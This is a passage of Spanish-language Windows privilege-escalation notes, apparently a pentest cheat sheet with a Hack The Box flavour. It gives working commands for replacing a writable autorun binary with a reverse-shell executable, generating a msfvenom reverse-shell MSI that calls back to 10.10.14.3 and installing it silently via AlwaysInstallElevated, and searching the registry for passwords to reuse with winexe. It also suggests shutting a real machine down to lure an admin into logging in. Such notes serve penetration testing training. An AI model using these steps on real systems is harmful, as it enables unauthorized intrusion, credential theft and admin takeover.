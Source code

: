 Buscamos en el registro ejecutables de autoruns

        reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

usamos accesschk.exe para ver los permisos que tienen los autoruns

        accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\AUTORUN.exe"

Si nuestro user/grupo tiene permisos de escritura sobre el autorun, lo reemplazamos por el archivo malicioso y reiniciamos la pc(en un entorno real es mejor apagarla para llamar la atención del admin y 
que se loguee en la misma):

        copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y

abrimos netcat y esperamos a que alguien encienda la máquina y se loguee


### ALWAYSINSTALLELEVATED 


Hacemos una query al registro buscando las keys de Alwaysinstallelevated

        reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated


        reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

si en ambos casos las keys están seteadas en 1 (0x1 == true)

generamos un archivo malicioso .msi con una shell reversa y lo pasamos a la víctima:

        msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi

lo instalamos y se nos va a generar una shell reversa con permisos de admin.

        msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart



## PASSWORDS

### REGISTRY

podemos buscar passwords en el registro de windows: 
Usualmente, si están, se encuentran en el archivo winlogon. De esta forma podemos listarlo:

        reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

De no estar ahí podemos expandir nuestra búsqueda listando archivos del registro que tengan la key o el value "password" y luego volver a listar cada uno con el comando anterior:

        reg query HKLM /f password /t REG_SZ /s

si encontramos la password podemos conectarnos desde kali con el winexe:

        winexe -U 'admin%password' //IP-VICTIMA cmd.exe


### SAVED CREDS

Podemos listar las credenciales guardadas en el sistema con el siguiente comando:
